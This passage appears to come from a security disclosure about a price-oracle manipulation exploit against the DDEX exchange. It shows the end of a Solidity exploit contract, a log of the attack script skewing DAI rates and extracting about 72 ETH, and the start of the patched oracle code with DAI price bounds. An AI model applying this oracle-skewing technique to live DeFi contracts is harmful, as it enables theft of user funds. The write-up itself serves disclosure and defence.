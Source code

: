         function cleanup() external {
            DAI.approve(address(MATCHING_MARKET), uint(-1));
            MATCHING_MARKET.sellAllAmount(DAI, boughtFromMatchingMarket, WETH, uint(0));
            WETH.withdrawAll();
            
            DAI.giveAllToUniswap();
            require(DAI_ORACLE.updatePrice());
        }
        
        function checkProfits() external {
            printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
        }
    }
    
    /*
    ### running script "ddex-exploit" at block 8572000
    #### executing step: exploit
    ##### calling: checkRates()
    eth=213.440000000000000000 dai=1.003140638067989051
    ##### calling: skewRates()
    ##### calling: checkRates()
    eth=213.440000000000000000 dai=16.058419875880325580
    ##### calling: steal()
    ethWanted=122.103009983203364425 daiNeeded=2435.392672403537525078
    ##### calling: cleanup()
    ##### calling: checkProfits()
    profits=72.140629996890984407
    #### finished executing step: exploit
    */

### Solution

The DDEX team fixed this by deploying a [new
oracle](https://etherscan.io/address/0xe6f148448b61339a59ef6ab9ab7378e9200fa745)
which places sanity bounds on the price of DAI, currently set to `0.95` and
`1.05`.

    
    
    function updatePrice()
    	public
    	returns (bool)
    {
    	uint256 _price = peek();
    
    	if (_price == 0) {
    		return false;
    	}
    
    	if (_price == price) {
    		return true;
    	}
    